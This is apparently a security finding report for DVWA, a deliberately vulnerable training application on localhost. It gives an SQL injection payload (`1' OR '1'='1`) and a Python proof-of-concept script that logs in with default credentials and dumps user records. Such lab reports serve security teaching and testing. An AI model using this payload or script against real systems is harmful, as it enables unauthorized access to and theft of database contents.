 ```
High

### Affected Component
DVWA - `/vulnerabilities/sqli/` endpoint

### Description
The product search functionality is vulnerable to SQL injection attacks. The application does not properly sanitize user input before using it in database queries, allowing an attacker to execute arbitrary SQL commands.

### Steps to Reproduce
1. Navigate to http://localhost:8080/vulnerabilities/sqli/
2. Enter the following payload in the search field: `1' OR '1'='1`
3. Submit the form
4. Observe that all user data is returned, indicating successful injection

### Proof of Concept
```python
import requests
from bs4 import BeautifulSoup

# Establish session with DVWA
session = requests.Session()
response = session.get("http://localhost:8080/login.php")
soup = BeautifulSoup(response.text, 'html.parser')
token = soup.find('input', {'name': 'user_token'})['value']

# Login to DVWA
login_data = {
    'username': 'admin',
    'password': 'password',
    'user_token': token,
    'Login': 'Login'
}
session.post("http://localhost:8080/login.php", data=login_data)

# Perform SQL injection
sqli_payload = "1' OR '1'='1"
response = session.get(f"http://localhost:8080/vulnerabilities/sqli/?id={sqli_payload}&Submit=Submit")

# Print results
print("Vulnerable to SQL Injection:", "Surname:" in response.text and "First name:" in response.text)
print(response.text)
```

### Impact
This vulnerability allows attackers to:
- Bypass authentication
- Access sensitive data from the database
- Potentially execute code on the database server
- Modify or delete database content
